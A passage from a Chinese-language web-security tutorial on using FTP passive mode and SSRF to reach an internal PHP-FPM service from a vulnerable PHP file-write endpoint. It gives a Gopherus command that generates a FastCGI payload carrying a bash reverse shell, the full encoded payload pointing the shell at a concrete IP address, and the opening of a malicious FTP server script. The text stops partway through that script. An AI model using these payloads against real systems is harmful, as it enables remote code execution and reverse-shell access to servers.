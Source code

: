     
    
    227 Entering Passive Mode(192,168,9,2,4,8)
    

227 和 Entering Passive Mode 类似 HTTP 的状态码和状态短语，而 `(192,168,9,2,4,8)` 代表让客户端到连接
192.168.9.2 的 4 * 256 + 8 = 1032 端口。

这样，假如我们指定 `(127,0,0,1,0,9000)` ，那么便可以将地址和端口指到 127.0.0.1:9000，也就是本地的 9000
端口。同时由于 FTP 的特性，其会把传输的数据原封不动的发给本地的 9000 端口，不会有任何的多余内容。如果我们将传输的数据换为特定的 Payload
数据，那我们便可以攻击内网特定端口上的应用了。在这整个过程中，FTP 只起到了一个重定向 Payload 的内容。

## 实例演示

###  Demo

首先看到以下这段代码：

    
    
    <?php
    file_put_contents($_GET['file'], $_GET['data']);
    

在不能写文件的环境下我们如何才能实现 RCE 呢？那么这个时候我们便可以从 FTP 的被动模式入手，通过 SSRF 攻击内网应用。

###  攻击内网 PHP-FPM

假设此时发现内网中存在 PHP-FPM，那我们可以通过 FTP 的被动模式攻击内网的 PHP-FPM。

首先使用 [Gopherus](https://github.com/tarunkant/Gopherus) 生成 Payload：

    
    
    python gopherus.py --exploit fastcgi
    /var/www/html/index.php  # 这里输入的是目标主机上一个已知存在的php文件
    bash -c "bash -i >& /dev/tcp/VPS/2333 0>&1"  # 这里输入的是要执行的命令
    

得到的 Payload 只要 `_` 后面的部分：

    
    
    %01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH104%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00h%04%00%3C%3Fphp%20system%28%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/47.101.57.72/2333%200%3E%261%22%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
    

然后在 VPS 上运行以下脚本，搭建一个恶意的 FTP 服务器：

    
    
    # evil_ftp.py
    import socket
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
    s.bind(('0.0.0.0', 23))
    s.listen(1)
    conn, addr = s.accept()
    conn.send(b'220 welcome\n')
    #Service ready for new user.
    #Client send anonymous username
    #USER anonymous
    conn.send(b'331 Please specify the password.\n')
    #User name okay, need password.
    #Client send anonymous password.
    #PASS anonymous
    conn.send(b'230 Login successful.\n')
    #User logged in, proceed. Logged out if appropriate.